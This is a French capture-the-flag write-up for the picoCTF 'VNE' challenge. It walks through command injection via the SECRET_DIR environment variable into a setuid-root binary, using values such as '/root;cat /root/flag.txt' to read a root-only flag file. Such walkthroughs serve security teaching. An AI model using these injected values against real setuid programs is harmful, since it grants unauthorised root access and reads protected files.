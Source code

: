 # VNE

## Enoncé
Catégorie : [Binary Exploitation](../)

Points : 200

Tags : `bash` `env` `injection`

Description :
> We've got a binary that can list directories as root, try it out !!  
> `ssh` to `saturn.picoctf.net:xxxxx`, and run the binary named "`bin`" once connected. Login as `ctf-player` with the password, `xxxxx`

Hints :
1. Have you checked the content of the /root folder
2. Find a way to add more instructions to the `ls`


## Approche

Après s'être connecté au serveur, on examine les fichiers présents dans le HOME directory du user `ctf-player` :
```bash
ctf-player@pico-chall$ ls -al
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Mar 18 23:42 .
drwxr-xr-x 1 root       root          24 Mar 16 01:59 ..
drwx------ 2 ctf-player ctf-player    34 Mar 18 23:42 .cache
-rw-r--r-- 1 root       root          67 Mar 16 01:59 .profile
-rwsr-xr-x 1 root       root       18752 Mar 16 01:59 bin
```

On constate que le "sticky bit" est positionné sur `bin`, permettant donc d'exécuter celui-ci avec les droits de son propriétaire (i.e. ici `root`)

Comme indiqué dans l'énoncé, on lance le binaire `bin` :
```bash
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```

Le message d'erreur indique que la variable d'environnement `SECRET_DIR` doit être définie. D'après son nom, elle référence un répertoire "secret".

L'examen sur le type de fichier montre que `bin` est un exécutable 64bits : on ne peut pas savoir directement le traitement qu'il réalise :
```bash
ctf-player@pico-chall$ file bin
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripped
```

## Solution

L'examen des droits du HOME directory du user `root`, montre que son accès est limité à `root` :
```bash
ctf-player@pico-chall$ ls -ld /root
drwx------ 1 root root 22 Mar 16 01:59 /root
```

`/root` semble donc un bon candidat en tant que `SECRET_DIR` :
```bash
ctf-player@pico-chall$ SECRET_DIR=/root ./bin
Listing the content of /root as root:
flag.txt
```

On constate que `bin` peut lister le contenu du répertoire `/root`, grâce au sticky bit.

En suivant la piste du tag `injection` de l'énoncé, on regarde le comportement lorsqu'on injecte une commande (ex: `echo coucou`) dans la variable `SECRET_DIR` :
```bash
ctf-player@pico-chall$ SECRET_DIR="/root;echo coucou" ./bin
Listing the content of /root;echo coucou as root:
flag.txt
coucou
```

On voit que la commande est exécutée. On renouvelle donc l'expérience avec cette fois une commande permettant de lire le contenu du fichier flag.txt :
```bash
ctf-player@pico-chall$ SECRET_DIR="/root;cat /root/flag.txt" ./bin
Listing the content of /root;cat /root/flag.txt as root:
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_xxxxxxxx}
```
